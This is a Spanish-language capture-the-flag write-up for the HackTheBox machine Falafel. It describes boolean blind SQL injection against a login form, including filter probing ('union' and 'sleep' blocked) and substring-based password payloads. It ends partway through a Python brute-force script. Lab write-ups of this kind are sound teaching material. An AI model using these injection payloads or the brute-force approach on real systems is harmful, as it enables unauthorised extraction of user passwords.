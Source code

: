 [Falafel Nmap Result](/assets/files/WriteUps/Falafel.txt)

## http
Vemos un panel de autenticación y un robots.txt que desactiva todo lo que acabe en .txt
Probamos credenciales típicas en el panel de autenticación. Al probar vemos que podemos validar usuarios válidos, **admin** es un usuario válido. Al probar inyecciones SQL, vemos que si utilizamos la clásica de 1=1, nos reporta que el usuario es "válido". 


# Exploitation
## SQLi
Probamos a buscar si nos reporta errores al ordenar los datos, haciendo pruebas vemos que nos reporta "Try again", si es falso, y "Wrong identification: Admin" cuando es satisfactoria.

> 4 columnas

Pero al intentar el "union select 1,2,3,4-- -" nos reporta "Hacked Attempt Detected!" sospechamos de posibles badwords. Haciendo pruebas comprobamos qué palabra nos da error.

> union es una badword

Aunque probamos diferentes formas como poniendo mayúsculas pero no funciona. Probamos inyección basada en tiempo pero tambien es badword

> sleep es badword

Podemos probar otras cosas como:

> admin' and substring(username,1,1)='a'-- -
> admin' and substring(username,2,1)='d'-- -

Vemos que es satisfactoria. Podemos fuzzear. Vamos a fuzzearo otro campo: "password" 

> admin' and substring(password,1,1)='a'-- -

Toca montarse un script para realizar la fuerzabruta

```python
#!/usr/bin/python3
#coding: utf-8

from pwn import *
import pdb
import string

def def_handler(sig, frame):
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)

# Ctrl+C 
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = 'http://10.10.10.73/login.php'
all_characters = string.ascii_lowercase + string.digits

def makeSQLi():
	
	# admin' and substring(password,1,1)='a'-- -
	
	password = ""
	
	p1 = log.progress("SQLI")
	p1.status("Iniciando proceso de fuerza bruta")
	
	time.sleep(2)
```